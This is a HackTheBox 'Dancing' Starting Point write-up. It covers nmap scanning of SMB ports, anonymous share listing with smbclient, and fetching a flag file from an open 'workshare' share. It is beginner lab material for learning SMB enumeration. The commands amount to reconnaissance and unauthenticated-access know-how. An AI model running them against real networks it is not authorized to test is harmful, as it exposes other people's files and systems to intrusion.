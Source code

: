 HackTheBox — Dancing (Starting Point) — Writeup

Author: Janhavi Mohite
Machine: Dancing (Starting Point)
Date: 2025-09-20
IP - 10.129.132.65

Objective

Retrieve the user flag from the target machine <TARGET_IP> using allowed enumeration and exploitation techniques. This was a beginner-friendly starting point focused on SMB enumeration and anonymous access.

Environment

Attacking host: Kali/Parrot machine inside HTB VPN (example IP: 10.10.15.20)

Target host: <TARGET_IP>

Tools used: nmap, smbclient, smbmap (optional), standard shell utilities (cat, ls)

Summary of steps

Performed service enumeration with nmap.

Enumerated SMB shares with smbclient -L.

Connected anonymously to the workshare share.

Navigated directories, downloaded flag.txt using get, and read the flag locally.

Reconnaissance
Nmap scan

I ran targeted nmap scans to find open SMB ports and services:

# quick service scan (only SMB related ports)
nmap -sV -p 139,445 <TARGET_IP>

# or a more aggressive scan for full service/version & scripts
nmap -sV -sC -p- <TARGET_IP>


Key findings:

Port 445/tcp — microsoft-ds (SMB) often shows up in nmap -sV.

(If present) NetBIOS ports 137–139 may also be seen on older systems.

(See nmap.png for a screenshot of the nmap output if you captured one.)

Enumerating SMB

List available shares (try anonymous access first):

smbclient -L //<TARGET_IP> -N


-L lists shares on the host.

-N tells smbclient not to prompt for a password (attempt anonymous).

From the output I found a share named workshare (or workshares depending on output). I connected to it anonymously:

smbclient //<TARGET_IP>/workshare -N


After connection I saw two directories inside the share. One of those directories contained flag.txt.

Downloading the flag

At the smb: prompt:

smb: \> ls
smb: \> cd <directory-containing-flag>
smb: \> get flag.txt
smb: \> exit


The get command downloads files from the SMB share to your local working directory.

Reading the flag

On the attacking machine:

ls -la
cat flag.txt


The flag printed to the terminal and completes the user objective.

Commands used (compact)
nmap -sV -p 139,445 <TARGET_IP>
smbclient -L //<TARGET_IP> -N
smbclient //<TARGET_IP>/workshare -N
# inside smbclient:
#    ls
#    cd <dir>
#    get flag.txt
#    exit
# locally
ls -la
cat flag.txt


If you prefer a quick share-permission view:

smbmap -H <TARGET_IP>

Observations & Notes

SMB (Server Message Block) is the service used for Windows file sharing — most modern SMB runs over TCP 445.

smbclient -L //<IP> -N is very useful to quickly see which shares allow anonymous access.

The get command in the SMB shell downloads files; put uploads.

Always ensure you only test machines you are authorized to (HTB/CTF boxes are safe to practice on).
